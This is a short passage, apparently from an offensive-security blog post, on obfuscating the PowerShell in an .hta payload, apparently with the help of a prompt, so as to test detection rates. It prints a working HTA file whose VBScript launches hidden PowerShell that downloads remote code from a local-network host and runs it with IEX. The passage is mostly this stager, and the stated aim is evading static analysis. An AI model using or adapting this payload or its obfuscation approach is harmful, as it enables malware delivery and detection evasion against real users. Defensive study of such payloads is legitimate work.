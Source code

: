 ![image9](images/image9.png "image9") Figure 9: Prompt that was used to obfuscate our PowerShell command for our .hta payload

Let's compare static analysis detection rates with the non-obfuscated payload, for this we are going to utilise hybrid analysis. This is an excerpt of an example HTA payload below:

```
<html>  
<head>
<title>HTA Payload Demo</title>
</head>  
<body>  
<p>Example Text</p>  
</body>  

<script language="VBScript">  
Function demo()  
Set shell = CreateObject("wscript.Shell")  
shell.run "powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.7:8088/a'))""  
End Function  

demo  
</script>  
</html>
```